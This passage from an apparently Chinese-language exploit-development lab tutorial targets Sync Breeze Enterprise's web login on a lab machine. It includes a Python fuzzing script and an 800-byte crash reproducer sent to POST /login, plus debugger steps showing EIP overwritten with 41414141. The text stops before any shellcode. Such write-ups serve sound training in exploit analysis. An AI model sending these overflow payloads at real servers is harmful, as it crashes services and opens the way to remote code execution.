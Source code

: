 ```
        buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
        buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Accept-Encoding: gzip, deflate\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += "Origin: http://10.211.55.8\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Referer: http://10.211.55.8/login\r\n"
        buffer += "Upgrade-Insecure-Requests: 1\r\n"
        buffer += "Content-Length: " + str(len(content)) + "\r\n"
        buffer += "\r\n"
        buffer += content

        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.211.55.8",80))
        s.send(buffer.encode())
        s.close()
        print(size,"buffer done !")
        size += 100
        time.sleep(10)
    except Exception as e:
        print(e)
        print("something wrong")
        sys.exit()
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605350474739-8e246c9c-91dc-4b34-b433-24e2c88d9410.png)

应该是发生一些意外情况，我们在win7上面，对进程进行附加，我们用Immunity Debugger，跟OllyDbg操作一样，不过是英文的，我们先去找一下，哪一个进程在监听80端口，可以直接打开资源监视器，或者在任务管理器打开资源监视器，然后网络里面有个侦听端口，就可以看到 `syncbrs.exe` 在侦听80端口：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605350673449-ef772f96-b92a-495b-bf2a-a3cca3d050a3.png)

用Immunity Debugger附加它，因为它是以系统进程启动的，所以Immunity Debugger需要以管理员身份运行，要不然附加里面找不到这个进程：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605355622473-37f5b109-8dc4-4f0d-80e6-fc1621144df2.png)

附加之后会暂停进程，我们需要点一下播放按钮，继续运行就可以了，附加之后在运行一下脚本，我们会发现在800-900字节之间，会出现程序崩溃暂停了，EIP为41414141说明EIP被覆盖，试图执行这个地址的指令：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605356127717-7ecc9584-d739-490d-a4e3-b582980781db.png)

### 复现崩溃

然后我们开始复现崩溃，关掉调试工具，重新启动服务，在任务管理器 - 服务 -  服务 - Sync Breeze Enterprise，右键启动

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605356534810-49626256-57c2-42a9-849c-90c4a5d9dd8c.png)

然后再用调试工具附加一下，用下面修改过后的脚本再试一次：

```
#! /usr/bin/python3
import socket

try:
    print("Sending evil buffer...")
    size = 800
    inputBuffer = "A"*size
    buffer = ""
    content = "username="+inputBuffer+"&password=A"
    buffer += "POST /login HTTP/1.1\r\n"
    buffer += "Host: 10.211.55.8\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n"
```